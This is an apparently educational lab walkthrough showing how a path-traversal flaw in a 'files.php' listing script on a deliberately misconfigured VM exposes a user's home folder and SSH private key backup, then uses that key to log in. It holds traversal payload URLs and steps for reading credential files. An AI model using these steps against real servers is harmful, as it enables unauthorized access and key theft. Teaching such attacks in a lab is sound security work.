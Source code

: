 To demonstrate the importance of the above we will assume our server has been configured incorrectly, especially by the lazy server admin named bozo. Bozo assumes his server is secure and has mistakenly granted all permissions to his home folder (why not? he is the only one who has access to the server anyway).  
We will use the webserver to gain access to his home folder and steal the private keys that will allow us to log in as him even without a password. Navigate to:
~~~
	http://yourvm/files.php
~~~
We can see that it lists all files in the current directory with . as the 'dir' parameter but we would like to get to /home/bozo, try:
~~~
	http://yourvm/files.php?dir=/home/bozo
~~~
Well that didn't work, but we can try other ways of navigating the file system that may not be caught by this simple script:
~~~
	http://yourvm/files.php?dir=../../home/bozo
~~~
There we go! We can see bozo's home files, lets look for ssh keys
~~~
	http://yourvm/files.php?dir=../../home/bozo/.ssh
~~~
__id_rsa__ is what we're looking for but often without user level access this file must be protected, luckily bozo stores a backup
~~~
	http://yourvm/files/php?dir=../../home/bozo/.ssh/id_rsa_backup
~~~
Copy this file down to /home/you/.ssh/id_rsa and try to log in
~~~
	ssh bozo@yourvm
~~~
Congratulations!
